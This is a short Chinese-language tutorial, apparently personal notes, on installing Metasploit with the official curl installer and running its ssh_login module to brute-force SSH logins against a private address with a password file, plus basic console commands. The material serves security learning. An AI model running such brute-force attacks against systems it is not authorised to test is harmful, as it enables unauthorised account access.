 # 网络安全之metasploit

	各种漏洞测试的工具

# metasploit安装

这下不能直接命令安装了，搜索[官网](https://docs.metasploit.com/docs/using-metasploit/getting-started/nightly-installers.html)

```shell
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall
```

# 开始使用
	以暴力破解ssh为例，开始演示
```shell
msfconsole
use auxiliary/scanner/ssh/ssh_login #使用这个模块
msf auxiliary(ssh_login) > set RHOSTS 10.0.0.27 # 设置remote host
msf auxiliary(ssh_login) > set USERPASS_FILE root_userpass.txt # 设置密码文件
msf auxiliary(ssh_login) > run # 开始测试
```

# 其它常用命令
1. help

	显示帮助命令

2. search

	查找漏洞模块,使用查找后use auxiliary/scanner/ssh/ssh_login，等价于下面的搜索
```shell
search ssh_login
use 0
```

3. options
	查看模块可以设置哪些选项
	主要设置required为yes的没有current setting的选项，即设置默认为空的选项